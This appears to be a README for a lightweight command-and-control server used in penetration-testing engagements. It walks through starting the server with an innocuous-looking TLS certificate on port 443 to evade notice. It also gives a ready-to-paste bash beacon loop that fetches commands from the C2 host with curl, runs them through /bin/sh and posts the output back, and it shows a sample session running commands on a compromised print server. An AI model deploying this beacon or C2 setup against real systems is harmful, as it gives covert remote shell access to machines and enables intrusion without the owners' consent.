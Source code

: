 HOWTO
=====

1. Get a C2 server set up
-------------------------
This is the easy part.  Assuming you've already got a binary named C2, start
it up

```sh
$ ./c2
2017/05/19 01:33:20 Generating TLS keypair for 0.0.0.0
2017/05/19 01:33:20 rsa.PublicKey *rsa.PrivateKey
2017/05/19 01:33:20 Made certificate for 0.0.0.0
2017/05/19 01:33:20 Listening for controller connections to ./c2.sock
2017/05/19 01:33:20 Listening for https connections to 0.0.0.0:4433
```

This starts the C2 server listening with a self-signed cert on TCP port 4433.
While this is sufficient for testing, in real life it'd be better to use a
trusted (or at least less suspicious) TLS keypair.

```sh
./c2 -cert innocent.crt -key innocent.key
```

Of course, beacons to 4433 are suspicious.  A firewall rule to redirect traffic
originally destined to 4433 to 443 is probably a good idea.  If you're running
on Kali as root anyways, the C2 server can be made to listen on 443 itself.

```sh
./c2 -cert innocent.crt -key innocent.key -l 0.0.0.0:443
```

By default, a Unix domain socket named `c2.sock` is created in the current
directory.  It should probably go in `/var/run` with the rest of the sockets.

```sh
./c2 -cert innocent.crt -key innocent.key -l 0.0.0.0:443 -csock /var/run/c2.sock
```

On Windows, Unix domain sockets don't work, so it's necessary to listen for
control connections on a TCP socket.  This is unencrypted, so please only
listen on loopback.

```sh
c2.exe -cert innocent.crt -key innocent.key -l 0.0.0.0:443 -csock 127.0.0.1:4321 -csockip
```

The C2 server doesn't daemonize itself, so starting it backgrounded (or in
tmux/screen) is a good idea.

```sh
nohup ./c2 -cert innocent.crt -key innocent.key -l 0.0.0.0:443 -csock /var/run/c2.sock >>c2.log 2>&1 &


2. Get a victim to beacon back
------------------------------
This one's up to you.
On a linux box you can run something like 
```sh
while :; do CMD=$(curl -sqLk https://c2address/victimID); if [ -z "$CMD" ]; then continue; fi; echo "-> $CMD"; echo "$CMD" | /bin/sh 2>&1 | curl --data-binary '@-' -sqLk http://c2address/victimID; sleep 1; done
```

Or, more clearly

```sh
while :; do
        CMD=$(curl -sqLk https://c2address/victimID)
        if [ -z "$CMD" ]; then
                continue
        fi

        echo "-> $CMD"

        echo "$CMD" | /bin/sh 2>&1 | \
            curl --data-binary '@-' -sqLk http://c2address/victimID

        sleep 1
done
```

One second beacons might arouse suspicion, but for testing they work fine.  For
real engagments, the becon interval can be as long as needed.

3. Control
----------
Connect to the control socket.  rlwrap is a nifty tool to make erasing and such
a little less painful.

```
$ rlwrap nc -vU /var/run/c2.sock
Welcome.  You are unix-sock-1495172888282047855.
Which endpoint would you like to control?
Enter an endpoint path or ? to list endpoints.
```

If you're already getting beacons, list the endpoints available.

```
Enter an endpoint path or ? to list endpoints.
> ?
Endpoint                  Last beacon
--------                  -----------
/client_blue/printserv    2017-05-19 01:48:05.544662056 -0400 EDT

Which endpoint would you like to control?
Enter an endpoint path or ? to list endpoints.
```

Only one in the example, we'll control it.

```
Enter an endpoint path or ? to list endpoints.
> /client_blue/printserv
/client_blue/printserv> uname -a
/client_blue/printserv>  -> "uname -a"
OpenBSD printserv.dmz.clientnetwork.com 6.1 GENERIC.MP#20 amd64
uptime
/client_blue/printserv>  -> "uptime"
 1:52AM  up 20 days,  5:46, 1 user, load averages: 2.80, 2.94, 3.01
```

The output, it's not pretty, but it works.

Multiple control connections work just fine, as do multiple control connections
to the same endpoint.

Enjoy.

